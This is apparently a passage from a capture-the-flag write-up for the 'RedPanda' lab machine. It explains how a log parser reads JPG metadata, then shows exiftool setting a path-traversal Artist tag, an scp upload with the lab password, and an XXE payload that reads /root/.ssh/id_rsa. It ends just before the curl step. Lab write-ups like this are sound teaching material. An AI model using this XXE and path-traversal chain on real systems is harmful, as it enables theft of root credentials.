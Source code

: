 Here we see that /opt/panda_search/redpanda.log is being read. This code will be read line after line. There are a few checks that a line has to pass:

1. The line must containe .jpg in the string (isImage)
2. Next parselog is called where the `split()` is done on the string where ‘||’ is the delimeter. The string must be split into four strings, where the first must be a number, and the fourth must point to an existing .jpg file. 
3. The .jpg’s file’s metadata tag ‘Artist’ must have a value that matched to /credits/<author_name>_creds.xml. Since the current user does not have WRITE access to /credits., we have to set the Artist value to ‘../tmp/gg/” where our XML exploit will be at /tmp/gg_credits.xml’
4. The JPG file should be in a folder where the current user has WRITE access. Which we can use /tmp for. 

## Creating an exploit jpg:

We create a file that we upload to the machine:

```bash
❯ wget "https://avatars.githubusercontent.com/u/95899548?v=4"
Longitud: 33411 (33K) [image/jpeg]
Grabando a: «95899548?v=4»

95899548?v=4               100%[====================================>]       

«95899548?v=4» guardado [33411/33411]

❯ mv 95899548\?v=4 gato.jpg
❯ exiftool -Artist="../home/woodenk/privesc" gato.jpg
    1 image files updated
❯ scp gato.jpg woodenk@10.10.11.170:.
woodenk@10.10.11.170's password: RedPandazRule
gato.jpg
```

Next, we create the xml file that points to the root id_rsa file with the named defined in the image. 

```bash
woodenk@redpanda:~$ cat privesc_creds.xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/gato.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Now we have to make a curl request with the format that we saw in the file as User-Agent:
